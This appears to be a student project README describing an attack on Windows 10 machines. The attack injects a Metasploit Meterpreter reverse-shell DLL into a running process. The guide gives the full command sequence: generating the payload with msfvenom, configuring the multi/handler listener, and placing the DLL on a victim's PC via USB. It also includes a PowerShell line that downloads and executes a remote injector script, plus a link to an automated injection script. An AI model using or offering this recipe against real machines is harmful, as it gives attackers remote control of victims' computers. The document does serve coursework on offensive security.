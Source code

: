 
# Security of Systems and Networks - Final Project

This is a Project made for the curricular unit Security of Systems and Networks.

Our final project consists in a system attack that targets Windows 10 machines. 
It consists in a DLL injection of a malicious DLL containing a payload from Metasploit. The payload used was Meterpreter to implement a reverse shell to the infected computer.






## Attack Guide
### Creation of the DLL and setup of the listener

Open Kali Linux terminal and type the following command:

```
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<SOME_PORT> -f dll > <OUTPUT_PATH> 
```

Once the DLL is created in the output path specified, copy it to a USB storage device.

After that, we need to setup the listener. Firstly, open the Metasploit Framwork console by typing the command:

```
  msfconsole
```
Once it opens, select usage of "exploit/multi/handler" module:

```
  use exploit/multi/handler
```

Then, set the payload used to create the DLL file:

```
  set payload windows/x64/meterpreter/reverse_tcp
```

Now set your IP:

```
  set lhost <YOUR_IP>
```

And the port specified previously:

```
  set lport <SOME_PORT>
```

Finally to start listening just execute:

```
  exploit
```

As soon as the victim's machine has the DLL injected the connection will establish and you should see something like this.

![App Screenshot](https://raw.githubusercontent.com/GVO72/SSR_FP/main/Images/listener_established_conn.png)

### DLL injection in victims PC - Manually

Insert the USB storage device and open Powershell.

Now run the command below, select a process where you will inject the DLL and anotate its pid.

```
  ps
```

After that, enable TLS 1.2 with the command:

```
  [Net.ServicePointManager]::SecurityProtocol = [Net.ServicePointManager]::SecurityProtocol -bor [Net.SecurityProtocolType]::Tls12
```

Download the injector provided in this repository:

```
  IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/GVO72/SSR_FP/main/Invoke-DllInjection.ps1')
```

And finally inject the malicious DLL with the command:

```
  Invoke-DllInjection -ProcessID <selected_pid> -Dll <path_of_the_dll>
```

If everything works as expected you should see something like this.

![App Screenshot](https://raw.githubusercontent.com/GVO72/SSR_FP/main/Images/ps_comands.png)

### DLL injection in victims PC - Script automated

If the victim's machines allows Powershell scripts to be executed you can simply download our script that does the the injection commands for you. Basically it searches for the pid of "explorer" and injects the DLL that he presumes to be in D:\ and is named "inject.dll". You can change the path to your DLL's name and path.

Download the script here: https://github.com/GVO72/SSR_FP/releases/download/v1.0/inject.ps1